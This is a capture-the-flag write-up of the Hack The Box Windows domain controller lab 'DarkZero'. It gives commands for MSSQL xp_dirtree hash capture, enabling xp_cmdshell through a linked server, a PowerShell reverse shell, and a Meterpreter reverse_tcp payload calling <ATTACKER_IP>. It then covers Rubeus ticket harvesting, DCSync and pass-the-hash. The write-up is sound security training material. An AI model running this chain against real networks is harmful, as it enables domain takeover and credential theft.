

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">DarkZero is a Hard difficulty Windows Active Directory machine that demonstrates advanced MSSQL exploitation and Kerberos attacks. The attack chain begins with initial credentials providing access to MSSQL, where xp_dirtree is leveraged to capture NTLMv2 hashes. A linked MSSQL server is discovered with elevated privileges, enabling xp_cmdshell execution for initial code execution. Local privilege escalation is achieved using a Windows exploit, followed by deploying Rubeus in monitor mode to capture Kerberos tickets. Forced authentication through MSSQL causes ticket capture, which is then converted and used with impacket-secretsdump to perform a DCSync attack, ultimately compromising the Domain Controller.</span>
</div>

**Key Vulnerabilities:**
- MSSQL xp_dirtree abuse for NTLMv2 hash capture
- Linked MSSQL server misconfiguration with elevated privileges
- Windows local privilege escalation vulnerability
- Kerberos ticket harvesting and DCSync attack

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 10.10.11.89

nmap -vv -T5 -p53,88,135,139,389,445,593,1433,3268,5985 -sC -sV 10.10.11.89
```

**Results:**

| Port | Service  | TCP/UDP |
| ---- | -------- | ------- |
| 53   | DNS      | TCP     |
| 88   | Kerberos | TCP     |
| 135  | RPC      | TCP     |
| 139  | NetBIOS  | TCP     |
| 389  | LDAP     | TCP     |
| 445  | SMB      | TCP     |
| 593  | HTTP RPC | TCP     |
| 1433 | MSSQL    | TCP     |
| 3268 | LDAP     | TCP     |
| 5985 | WinRM    | TCP     |

**Key findings:**
- MSSQL service running on port 1433
- Domain Controller indicators (DNS, Kerberos, LDAP)
- The machine is `DC01.darkzero.htb` in the `darkzero.htb` domain
- Multihomed host with both 10.10.11.89 and 172.16.20.1 IP addresses

### Initial Credentials

We start with a pair of valid credentials for the environment. These credentials provide access to MSSQL but not to SMB shares.

### SMB Enumeration

```bash
nxc smb 10.10.11.89 -u 'username' -p 'password' --shares
```

The provided credentials do not grant access to any interesting SMB shares, so we pivot to other services.

---

## Initial Foothold

### MSSQL Exploitation

With access to MSSQL, we connect to the database server:

```bash
impacket-mssqlclient username:password@10.10.11.89 -windows-auth
```

Upon connecting, we discover that the `xp_dirtree` stored procedure is accessible. This procedure can be abused to force the MSSQL service to authenticate to an attacker-controlled SMB server.

<div class="divider divider-info">
    <span class="divider-title">xp_dirtree Exploitation</span>
    <span class="divider-content">The xp_dirtree stored procedure in MSSQL is used to enumerate directory structures. When pointed at a UNC path, it forces the MSSQL service account to authenticate to that path, leaking the NTLMv2 hash in the process. This can be captured with tools like Responder or ntlmrelayx.</span>
</div>

**Step 1:** Set up Responder to capture the NTLMv2 hash
```bash
sudo responder -I tun0
```

**Step 2:** Execute xp_dirtree to force authentication
```sql
EXEC master.dbo.xp_dirtree '\\<ATTACKER_IP>\share';
```

We successfully capture the NTLMv2 hash for `DC01$` (the machine account). While cracking machine account hashes is typically unlikely to succeed, we attempt it anyway:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt dc01_hash.txt
```

As expected, the hash does not crack.

### Linked Server Discovery

Continuing enumeration within MSSQL, we discover a linked server configuration:

```sql
SELECT * FROM sys.servers;
```

This reveals a linked MSSQL server. Linked servers allow one MSSQL instance to execute queries on another server. We test our access level on the linked server:

```sql
EXEC ('SELECT SYSTEM_USER;') AT [LINKED_SERVER_NAME];
```

**Critical Finding:** Our linked server access is running with **database administrator privileges**, which is a significant privilege escalation opportunity.

---

### Exploitation

**Vulnerability Discovery:** Linked server misconfiguration with elevated privileges

<div class="divider divider-warning">
    <span class="divider-title">Linked Server Privilege Escalation</span>
    <span class="divider-content">MSSQL linked servers can be configured with different security contexts. In this case, the linked server was configured to execute commands with elevated privileges (db_admin), even though our initial access was limited. This allows us to enable xp_cmdshell on the linked server and achieve code execution.</span>
</div>

**Step 1:** Enable xp_cmdshell on the linked server
```sql
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [LINKED_SERVER_NAME];
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [LINKED_SERVER_NAME];
```

**Step 2:** Test command execution
```sql
EXEC ('xp_cmdshell ''whoami'';') AT [LINKED_SERVER_NAME];
```

We now have code execution on the linked server as the MSSQL service account.

**Step 3:** Establish a reverse shell

We generate a PowerShell reverse shell payload and execute it through xp_cmdshell:

```sql
EXEC ('xp_cmdshell ''powershell -enc <BASE64_ENCODED_PAYLOAD>'';') AT [LINKED_SERVER_NAME];
```

<div class="divider divider-root">
    <span class="divider-title">Shell Access</span>
    <span class="divider-content">Successfully gained shell access as MSSQL service account on the linked server</span>
</div>

---

## User Flag

After establishing our shell, we locate the user flag on the system.

---

## Privilege Escalation

### Local Privilege Escalation

With shell access as a low-privileged service account, we need to escalate to SYSTEM privileges on the machine.

**Step 1:** Run enumeration with WinPEAS
```powershell
wget http://<ATTACKER_IP>/winPEAS.exe -OutFile C:\temp\winPEAS.exe
.\winPEAS.exe
```

**Key Finding:** The operating system running on the VM is outdated, making it vulnerable to known local privilege escalation exploits.

**Step 2:** Identify the exploit

After researching the Windows version, we identify a suitable local privilege escalation exploit available in Metasploit (or GitHub). For this engagement, we use Metasploit's exploit module.

**Step 3:** Upgrade to Meterpreter session

We generate a Meterpreter payload and execute it on the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o shell.exe
```

Transfer and execute the payload, then catch the session:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT 4444
run
```

**Step 4:** Run the privilege escalation exploit

Once we have a Meterpreter session, we background it and run the local exploit:

```bash
use exploit/windows/local/<EXPLOIT_NAME>
set SESSION 1
run
```

The exploit succeeds, and we obtain a new Meterpreter session running as **SYSTEM**.

<div class="divider divider-root">
    <span class="divider-title">SYSTEM Access</span>
    <span class="divider-content">Successfully escalated privileges to SYSTEM on the VM</span>
</div>

---

### Kerberos Ticket Harvesting

With SYSTEM privileges on the VM, we can now pivot to attack the Domain Controller. Our goal is to capture Kerberos tickets and perform a DCSync attack.

**Step 1:** Upload Rubeus to the VM

Rubeus is a C# toolset for Kerberos exploitation. We'll use its monitor mode to capture authentication tickets.

```bash
upload /path/to/Rubeus.exe C:\temp\Rubeus.exe
```

**Step 2:** Start Rubeus in monitor mode

Rubeus monitor mode watches for new logon events (4624) and automatically extracts Kerberos TGTs as they appear.

```bash
shell
C:\temp\Rubeus.exe monitor /interval:10
```


Rubeus is now listening for incoming Kerberos tickets and will capture any ticket used for authentication on the VM.

<div class="divider divider-info">
    <span class="divider-title">Rubeus Monitor Mode</span>
    <span class="divider-content">Rubeus monitor mode continuously watches for new authentication events on a Windows system. When a user or service authenticates and obtains a TGT (Ticket Granting Ticket), Rubeus extracts it from memory and displays it in base64 format. This is particularly effective on servers where multiple accounts authenticate regularly, or where we can force authentication.</span>
</div>

**Step 3:** Force authentication from the Domain Controller

We can force the Domain Controller to authenticate to our compromised VM using our MSSQL access. This will cause the DC to obtain a TGT on our compromised system, which Rubeus will capture.

From our MSSQL session:

```sql
EXEC xp_cmdshell 'dir \\DC01.darkzero.htb\C$';
```


Rubeus immediately captures the Kerberos ticket and displays it in base64 format.

**Step 4:** Extract and convert the ticket

Copy the entire base64 ticket from Rubeus output and save it to a file on your attacker machine:


```bash
echo '<BASE64_TICKET>' > ticket.b64
```

Decode the base64 to a `.kirbi` ticket file:

```bash
base64 -d ticket.b64 > ticket.kirbi
```

Convert the `.kirbi` ticket to `.ccache` format using impacket:

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```


---

### DCSync Attack

<div class="divider divider-warning">
    <span class="divider-title">DCSync Attack</span>
    <span class="divider-content">A DCSync attack leverages the Directory Replication Service Remote Protocol to impersonate a Domain Controller and request password data from another DC. By using a captured TGT from a privileged account (like DC01$), we can perform replication and extract all domain user hashes, including the Domain Administrator.</span>
</div>

**Step 1:** Fix clock skew (if necessary)

Kerberos is time-sensitive. If your system clock is off by more than 5 minutes, authentication will fail:

```bash
sudo ntpdate <DC_IP>
```

**Step 2:** Export the ticket for use

```bash
export KRB5CCNAME=ticket.ccache
```

**Step 3:** Perform DCSync using impacket-secretsdump

```bash
impacket-secretsdump -k -no-pass DC01.darkzero.htb
```


The DCSync succeeds, and we extract all domain user hashes, including the Administrator NTLM hash.

---

### Root Flag

**Step 1:** Use psexec to authenticate as Administrator

With the Administrator NTLM hash, we can perform a pass-the-hash attack:

```bash
impacket-psexec -hashes :<NTLM_HASH> administrator@DC01.darkzero.htb
```


We successfully authenticate as `NT AUTHORITY\SYSTEM` on the Domain Controller.

**Step 2:** Retrieve the root flag

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

<div class="divider divider-root">
    <span class="divider-title">Domain Admin Access</span>
    <span class="divider-content">Successfully compromised the Domain Controller and achieved full domain admin access</span>
</div>

---

## Post-Exploitation

**Flags:**
- User: `[flag]`
- Root: `[flag]`

---

## References

- [MSSQL xp_dirtree NTLMv2 Hash Capture - R-Tec](https://www.r-tec.net/r-tec-blog-mssql-exploitation-run-commands-like-a-pro.html)
- [NTLM Relay Attack Techniques - GuidePoint Security](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [Rubeus Monitor Mode - SpecterOps](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/extraction/monitor)
- [Rubeus Complete Guide - JumpCloud](https://jumpcloud.com/it-index/what-is-rubeus)
- [Impacket Toolkit - GitHub](https://github.com/fortra/impacket)
- [Active Directory Attack Techniques - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [DCSync Attack - SpecterOps](https://attack.mitre.org/techniques/T1003/006/)

---

## Timeline



---

**Pwned on:** October 9, 2024

**Difficulty Rating:** ⭐⭐⭐⭐ (Personal rating)  
**Fun Factor:** ⭐⭐⭐⭐ (How enjoyable was it?)